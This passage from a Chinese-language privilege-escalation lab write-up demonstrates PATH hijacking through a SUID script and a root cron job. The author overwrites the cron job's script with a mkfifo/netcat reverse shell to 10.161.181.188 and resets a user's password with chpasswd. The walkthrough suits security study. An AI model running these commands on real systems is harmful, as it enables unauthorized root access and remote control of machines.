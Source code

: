```bash
cd /tmp
echo "/bin/bash" > ls
chmod +x ls
echo $PATH
export PATH=$PWD:$PATH
cd /home/user5
./script
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201600.png" alt="image-20240319191104970" style="zoom: 33%;" />

### 方法三：定时任务提权user4

在`crontab`中，每5分钟使用`root`特权运行`autoscript.sh`文件。

```bash
cat /home/user4/Desktop/autoscript.sh
touch /home/user4/abc.txt
echo "I will automate the process"
bash -i
```

利用一下：

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.161.181.188 2345 >/tmp/f" > autoscript.sh
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201601.png" alt="image-20240319192737132" style="zoom:50%;" />

权限不够，使用之前的脚本将密码修改一下：

```bash
cd /tmp
echo 'echo "user4:fucku" | chpasswd' > ls
chmod +x ls
export PATH=$PWD:$PATH
cd /home/user5 
./script
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201602.png" alt="image-20240319193338206" style="zoom:33%;" />

切换到这里，再返回进行修改：

```bash
echo "mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.161.181.188 2345 >/tmp/f" > autoscript.sh
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201603.png" alt="image-20240319193625982" style="zoom:50%;" />

获取root权限！但是这种方法有点拿到root再找root的感觉，接下来不这么做了。

### 方法四：nfs+suid
